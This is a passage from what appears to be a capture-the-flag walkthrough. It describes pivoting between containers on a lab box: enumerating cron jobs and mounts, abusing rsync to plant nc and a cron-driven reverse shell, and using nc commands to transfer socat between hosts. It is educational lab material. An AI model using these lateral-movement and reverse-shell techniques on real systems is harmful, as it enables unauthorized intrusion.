 {% include image.html image_alt="caec74a8.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/caec74a8.png" %}


During enumeration of `www`, I found the following locations of interest:

+ `cron` job at `/etc/cron.d/backup`
+ `/dev/sda3` `mount`ed at `/home`


{% include image.html image_alt="0f201a94.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/0f201a94.png" %}


This is how `backup.sh` looks like.


{% include image.html image_alt="82a69a18.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/82a69a18.png" %}


This is how the `mount`s looks like.


{% include image.html image_alt="81db80f4.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/81db80f4.png" %}


Now I'm pretty sure getting the flags have something to do with the last container.

I'll not go over how to use or what `rsync` is, that's what the man-pages are for. RTFM!


{% include image.html image_alt="4c13e0f5.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/4c13e0f5.png" %}


Pivoting on how `cron` job is scheduled in `www`, I found a similar `cron` job in `backup` too.


{% include image.html image_alt="5eb2d293.png" image_src="/5fe3821d-e533-403a-80d3-5ef5fe793aa2/5eb2d293.png" %}


No wonder the database backup doesn't complete!

We know `rsync` works both ways. We can copy files from `backup`, we can also copy files over to `backup`. I've done my enumerations. :triumph:

Let's copy two files over. Our beloved `nc` and another `cron` job that runs the `nc` reverse shell back to us. But before we do that, we need to set up a pair of TCP tunnels between `nodered` and `www`; and `nodered` and my attacking machine. If you have been following the walkthrough so far, you realized that there's no `socat` in `www`. As such, we also need to transfer `socat` to `www`, with the help of `nc`, of course.

_On `www`, use the following command_

```
$ /tmp/nc -lnvp 1234 > /tmp/socat &
```

_On `nodered`, use the following command_

```
# nc 172.19.0.3 1234 < /usr/bin/socat &
```
